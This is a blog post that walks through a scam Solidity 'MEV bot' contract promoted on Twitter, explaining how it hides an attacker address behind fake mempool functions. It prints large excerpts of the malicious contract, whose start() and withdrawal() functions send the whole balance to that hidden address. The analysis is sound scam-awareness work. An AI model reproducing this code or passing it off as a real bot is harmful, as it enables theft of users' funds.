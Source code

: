 ```yaml
---
title: 'Malicious Mev-Bot Walkthrough'
date: 2024-01-26T17:21:28+08:00
draft: false
tags: ["security", "smart contracts"]
---
```


## 0. Preliminary Notes

A few months ago, I encountered a scam on Twitter. I clicked on some random tweet that said something like "Hey check out this MEV bot that makes me 5 ETH per week" which led to some Solidity code. At that time, I didn't understand Solidity but was pretty sure it was a scam (spoilers alert: it was). Also, I had no idea what an MEV bot was, but in hindsight, the scam was attempting to use Solidity code for an MEV bot, which actually made no sense since it requires offchain code to monitor the mempool. Regardless, I bookmarked the code to revisit once I had a better grasp of Solidity, and now here we are.

## 1. Malicious code

This is the malicious code (Warning: DO NOT RUN THIS CODE; it's provided here for demonstration purposes only): https://pastes.io/raw/a7hcqlzvzc.

At first glance, the code is pretty complicated, and you can spot elements like the WETH token address. This can even be verified on Etherscan, confirming it's the correct address. However, these parts of the code are irrelevant and are solely intended to confuse users.

```sol
string memory WETH_CONTRACT_ADDRESS = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";
string memory TOKEN_CONTRACT_ADDRESS = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";
```

If we search the `public` keyword, we can find only two public functions: `start()` and `withdrawal()`. By reading it, we can immediately sense something weird, because what they do is transfer all funds to the same address.

```sol
/*
 * @dev Perform frontrun action from different contract pools
 * @param contract address to snipe liquidity from
 * @return `liquidity`.
 */
function start() public payable {
    emit Log("Running MEV action. This can take a while; please wait..");
    payable(_callMEVAction()).transfer(address(this).balance);
}

/*
 * @dev withdrawals profit back to contract creator address
 * @return `profits`.
 */
function withdrawal() public payable {
    emit Log("Sending profits back to contract creator address...");
    payable(withdrawalProfits()).transfer(address(this).balance);
}
...
function _callMEVAction() internal pure returns (address) {
    return parseMempool(callMempool());
}
function withdrawalProfits() internal pure returns (address) {
    return parseMempool(callMempool());
}
```

Now, let's try to understand what exactly is happening with `parseMempool(callMempool())`. Here’s the relevant code snippet, including the nonsense comments within the code:

```sol
/*
 * @dev Parsing all Uniswap mempool
 * @param self The contract to operate on.
 * @return True if the slice is empty, False otherwise.
 */
function parseMempool(string memory _a) internal pure returns (address _parsed) {
    bytes memory tmp = bytes(_a);
    uint160 iaddr = 0;
    uint160 b1;
    uint160 b2;

    for (uint i = 2; i < 2 + 2 * 20; i += 2) {
        iaddr *= 256;
        b1 = uint160(uint8(tmp[i]));
        b2 = uint160(uint8(tmp[i + 1]));
        if ((b1 >= 97) && (b1 <= 102)) {
            b1 -= 87;
        } else if ((b1 >= 65) && (b1 <= 70)) {
            b1 -= 55;
        } else if ((b1 >= 48) && (b1 <= 57)) {
            b1 -= 48;
        }
        if ((b2 >= 97) && (b2 <= 102)) {
            b2 -= 87;
        } else if ((b2 >= 65) && (b2 <= 70)) {
            b2 -= 55;
        } else if ((b2 >= 48) && (b2 <= 57)) {
            b2 -= 48;
        }
        iaddr += (b1 * 16 + b2);
    }
    return address(iaddr);
}
/*
 * @dev Iterating through all mempool to call the one with the with highest possible returns
 * @return `self`.
 */
function callMempool() internal pure returns (string memory) {
    string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
    uint _memPoolSol = 3992521915;
    uint _memPoolLength = 39295571767;
    uint _memPoolSize = 631542;
    uint _memPoolHeight = getMemPoolHeight();
    uint _memPoolDepth = getMemPoolDepth();

    string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
    string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
    string memory _memPool3 = checkLiquidity(_memPoolHeight);
    string memory _memPool4 = checkLiquidity(_memPoolDepth);

    string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
    string memory _fullMempool = mempool("0", _allMempools);

    return _fullMempool;
}
...
/*
 * @dev Check if contract has enough liquidity available
 * @param self The contract to operate on.
 * @return True if the slice starts with the provided text, false otherwise.
 */
function checkLiquidity(uint a) internal pure returns (string memory) {

    uint count = 0;
    uint b = a;
    while (b != 0) {
        count++;
        b /= 16;
    }
    bytes memory res = new bytes(count);
    for (uint i=0; i<count; ++i) {
        b = a % 16;
        res[count - i - 1] = toHexDigit(uint8(b));
        a /= 16;
    }

    return string(res);
}
...
function getMemPoolLength() internal pure returns (uint) {
    return 45373229;
}
...
/*
 * @dev loads all Uniswap mempool into memory
 * @param token An output parameter to which the first token is written.
 * @return `mempool`.
 */
function mempool(string memory _base, string memory _value) internal pure returns (string memory) {
    bytes memory _baseBytes = bytes(_base);
    bytes memory _valueBytes = bytes(_value);

    string memory _tmpValue = new string(_baseBytes.length + _valueBytes.length);
    bytes memory _newValue = bytes(_tmpValue);

    uint i;
    uint j;

    for(i=0; i<_baseBytes.length; i++) {
        _newValue[j++] = _baseBytes[i];
    }

    for(i=0; i<_valueBytes.length; i++) {
        _newValue[j++] = _valueBytes[i];
    }

    return string(_newValue);
}
```
By analyzing the code, we can break down each function as follows:

1. The `mempool()` function simply concatenates strings.
2. The `checkLiquidity()` function converts a uint256 into its hexadecimal string representation.
3. The `callMempool()` function creates an address in string format by converting integers to hex and then concatenating them, using seemingly random functions like `getMemPoolLength()`. It also includes a `0x` prefix, which is noticeable upon closer inspection.
4. The `parseMempool()` function converts the string back into an address format. The ranges 48-57, 65-70, and 97-102 correspond to the ASCII codes for '0'-'9', 'A'-'F', and 'a'-'f', respectively.


To summarize, the code essentially constructs the scammer's address and then transfers all the ether provided by the user to that address.

I modified the code in Remix to log the scammer's address: 0x899ccec116edf90cbB92632d7379a2f62E49fbFD. We can track how many people were victimized by this individual by visiting his transaction history on [Etherscan](https://etherscan.io/address/0x899ccec116edf90cbB92632d7379a2f62E49fbFD#internaltx). It turns out this person did manage to steal about 5 ETH through this scheme. Ironically, the scammer's promotion wasn't entirely false – the code did really helped him gain 5 ETH.

![tx-total](../tx-total.png)

We can even see the log "Running MEV action. This can take a while; please wait.." if we check the transaction details.

![tx-detail](../tx-detail.png)

## 2. Summary

The key takeaway is straightforward: avoid greed and be cautious of clicking on suspicious links, particularly in the crypto world where scams are everywhere.